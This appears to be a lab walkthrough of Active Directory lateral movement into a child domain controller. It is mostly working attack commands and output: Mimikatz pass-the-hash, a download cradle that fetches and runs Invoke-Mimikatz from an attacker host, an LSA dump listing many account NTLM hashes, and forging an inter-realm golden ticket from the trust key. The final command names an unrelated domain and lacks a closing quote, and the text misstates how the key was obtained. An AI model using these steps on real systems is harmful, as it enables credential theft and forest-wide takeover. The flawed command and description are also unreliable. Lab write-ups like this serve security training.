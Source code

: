 # Lateral Movement 2 - Child DC

- [Lateral Movement 2 - Child DC](#lateral-movement-2---child-dc)
  - [Over Pass-the-Hash to Child DC](#over-pass-the-hash-to-child-dc)
  - [Dumping the Forest Trust key](#dumping-the-forest-trust-key)
  - [Inter-realm TGT](#inter-realm-tgt)

----

## Over Pass-the-Hash to Child DC

Recall in the previous session, we have the following NTLM in the `OPERATIONS` domain:

* Krbtgt NTLM: `8e2b8effbf6735b8fb5be206cb3dfead`
* Administrator NTLM: `5984a430e639891136c94918e6846f24`

<br/>

Use Over-pass-the-hash technique to become Administrator:

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:operations.atomic.site /user:administrator /ntlm:5984a430e639891136c94918e6846f24 /run:powershell.exe"'
```

![picture 49](images/80eb084c86455d5825253a1fa78d891e0ba4e1539d1327267787c73f665c2e8b.png)  

<br/>

Get a PS Session on the Child DC:

```
Enter-PSSession -ComputerName OPS-CHILDDC.operations.atomic.site
```

<br/>

Then import Mimikatz:

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/Invoke-Mimikatz.ps1"))
```

![picture 50](images/56f1f7a53a4d81dcc3107b8a157e4eec6d8221459239a674433c9b635fcbb79d.png)  

<br/>

## Dumping the Forest Trust key

Use `Mimikatz` to dump the forest trust key:

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```
mimikatz(powershell) # lsadump::lsa /patch
Domain : OPERATIONS / S-1-5-21-3757735274-1965336150-1982876978

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 5984a430e639891136c94918e6846f24

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 8e2b8effbf6735b8fb5be206cb3dfead

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :

RID  : 00000456 (1110)
User : sysadmin
LM   :
NTLM : 33da4461cc64d97d6766bea54d8824c7

RID  : 0000045a (1114)
User : support
LM   :
NTLM : dd8ab1ad74d9faf1900eac349c8fb3e5

RID  : 0000045b (1115)
User : homi
LM   :
NTLM : 4d32b988b70b389423886883f666ed66

RID  : 0000045c (1116)
User : iyer
LM   :
NTLM : 493483461831ba82fe193fe01653da6a

RID  : 0000045d (1117)
User : sri
LM   :
NTLM : 50e3b28275dc32db9f2e82b2e25968e2

RID  : 0000045e (1118)
User : srv-db
LM   :
NTLM : c60cc979b81b15f2e23848eac75bef16

RID  : 0000045f (1119)
User : srv-auto
LM   :
NTLM : ea06afda9cb34106ddaf747108eb1af1

RID  : 00000461 (1121)
User : adm_domain
LM   :
NTLM : 3d15cb1141d579823f8bb08f1f23e316

RID  : 00000466 (1126)
User : iisadmin
LM   :
NTLM : 7e44e374b6a9d37380d77970d8e2e2dc

RID  : 000003e8 (1000)
User : OPS-CHILDDC$
LM   :
NTLM : 56f0486339dcdb3c826c24cff402ff89

RID  : 00000457 (1111)
User : DB-SERVER$
LM   :
NTLM : 69daa9e8178f21b00e90471107536f36

RID  : 00000458 (1112)
User : REPO-SERVER$
LM   :
NTLM : f3cbb96681af765b402de7b8624f8f5c

RID  : 00000459 (1113)
User : AUTOMATION-SERV$
LM   :
NTLM : ec502117e636abf5c60b6cb09b6203fa

RID  : 00000c1d (3101)
User : SCIENTIST-MACHI$
LM   :
NTLM : 872b1c234faa0e62e1b4797076053823

RID  : 0000044f (1103)
User : ATOMIC$
LM   :
NTLM : 72cc4221252de3dfd2b5446f5b8c0f10
```

![picture 51](images/60d62c7fe7176c809e61efd4cc4ba59ab3bccc14388c894e83c8c1eda3cfc232.png)  

* Forest Trust Key: `72cc4221252de3dfd2b5446f5b8c0f10`

<br/>

## Inter-realm TGT

To forge inter-realm TGT, we need the following information:
- `/sid`: SID of the current domain
  - Shown in the LSADUMP: `S-1-5-21-3757735274-1965336150-1982876978`
- `/sids`: SID of the Enterprise Admins Group
  - Use PowerView: `Get-DomainSID -Domain atomic.site`
- `/rc4`: Trust key
  - Dumped using DCSync: `72cc4221252de3dfd2b5446f5b8c0f10`




```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-3757735274-1965336150-1982876978 /sids:<sid_of_enterprise_admins_group_of_parent_domain>-519 /rc4:72cc4221252de3dfd2b5446f5b8c0f10 /service:krbtgt /target:atomic.site /ticket:C:\Users\Public\forged.kirbi
```